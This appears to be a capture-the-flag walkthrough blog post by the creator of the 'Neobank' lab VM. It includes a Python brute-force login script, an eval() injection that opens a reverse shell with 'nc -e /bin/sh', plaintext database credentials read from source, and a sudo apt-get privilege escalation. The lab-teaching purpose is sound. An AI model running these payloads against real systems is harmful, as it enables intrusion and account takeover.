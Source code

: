 ```yaml
---
layout: post
title:  "Neobank - Walkthrough"
date:   2020-12-28 10:10:05 +0300
categories: [vulnhub,hackmyvm,walkthrough,myvms]
pin: true
tags: [enumeration,bruteforce,google authenticator,eval,sudo]
image: /images/neobank.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/neobank-1,642/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Neobank`

- Difficulty : Medium

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/kxbu7R75AxQ" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
  /login
  /logout
  /otp
  /qr
  /withdraw
  /email_list
{% endhighlight %}

## Retreive emails

- Under the `/email_list` you can retrieve the emails

```sh
zeus@neobank.vln
hera@neobank.vln
apollo@neobank.vln
athena@neobank.vln
poseidon@neobank.vln
ares@neobank.vln
artemis@neobank.vln
demeter@neobank.vln
aphrodite@neobank.vln
dionysos@neobank.vln
hermes@neobank.vln
hephaistos@neobank.vln
```

## Brute force

- Creating the `pins` wordlist using `rockyou.txt`

```
cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt
```

- bruteforce script

{% highlight python %}
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
{% endhighlight %}

- Run it
```
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : zeus@neobank.vln
[+] Password : 2*****
```

## OTP google authenticator

- Scan the qrcode and insert the otp code

## Exploit eval() python function

```
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```

#### MySQL enumeration find banker credentials

{% highlight sh %}
  cat /var/www/html/main.py
  banker:neobank1
  mysql -u banker -pneobank1
  use bank;
  select * from system;
  banker:adv1se.me
{% endhighlight %}

## GTFObins

- sudo -l

{% highlight sh %}
  sudo apt-get changelog apt
  !/bin/sh
{% endhighlight %}

- This vm created by me, i enjoyed the process
